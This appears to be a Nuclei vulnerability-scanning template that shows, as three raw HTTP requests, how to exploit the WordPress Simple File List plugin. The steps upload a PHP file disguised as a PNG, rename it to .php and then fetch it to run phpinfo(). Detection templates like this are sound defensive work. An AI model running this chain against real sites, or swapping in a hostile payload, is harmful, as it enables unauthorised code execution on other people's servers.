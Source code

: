 ## Requests

### Step - 1

```
POST /wp-content/plugins/simple-file-list/ee-upload-engine.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=6985fa39c0698d07f6d418b37388e1b2

--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_ID"

1
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_FileUploadDir"

/wp-content/uploads/simple-file-list/
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Timestamp"

1587258885
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Token"

ba288252629a5399759b6fde1e205bc2
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="file"; filename="nuclei.png"
Content-Type: image/png

<?php echo "Nuclei - Open source project (github.com/projectdiscovery/nuclei)"; phpinfo(); ?>
--6985fa39c0698d07f6d418b37388e1b2--

```

### Step - 2

```
POST /wp-content/plugins/simple-file-list/ee-file-engine.php HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Accept: */*
Content-Type: application/x-www-form-urlencoded

eeSFL_ID=1&eeFileOld=nuclei.png&eeListFolder=%2F&eeFileAction=Rename%7Cnuclei.php

```

### Step - 3

```
GET /wp-content/uploads/simple-file-list/nuclei.php HTTP/1.1
Host: {{Hostname}}
Accept: */*

```
